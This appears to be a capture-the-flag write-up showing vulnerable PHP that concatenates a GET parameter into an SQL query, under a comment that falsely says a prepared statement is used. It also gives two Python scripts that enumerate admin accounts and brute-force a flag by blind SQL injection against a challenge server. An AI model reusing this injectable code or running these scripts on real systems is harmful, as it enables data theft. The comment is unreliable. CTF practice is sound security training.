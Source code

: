 ```php
// Fetch the 'user' parameter from the query string
$userParam = $_GET['user'];

// Use prepared statement to prevent SQL injection
if($userParam){
if($userParam !=  "all"){
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
}
}
```

As in ```dump.sql``` file, the right admins have bio start with "Flag", so we will find by that way.

My script to do this

```py
import requests

usernames = []

# find the admin(s)
for index in range(501):
    URL = "http://34.132.132.69:8000/?user=admin{}' and bio like 'Flag%"

    response = requests.get(URL.format(index))
    if "admin{}".format(index) in response.text:
        usernames.append("admin{}".format(index))
        

print(usernames)
```

Only ```admin343``` found.

#### Get flag

Brute force each character of flag

```py
import requests
import string

ALPHABET = "_}" + string.digits + string.ascii_lowercase + string.digits + string.ascii_uppercase

flag_guess = "Flag{"   
while "}" not in flag_guess:
    for character in ALPHABET:
        if character == "_":
            character = "\_"
        URL = f"http://34.132.132.69:8000/?user=admin343' and bio like '{flag_guess + character}%"

        response = requests.get(URL)
        if "admin343" in response.text:
            flag_guess += character
            print(flag_guess)
            break
```
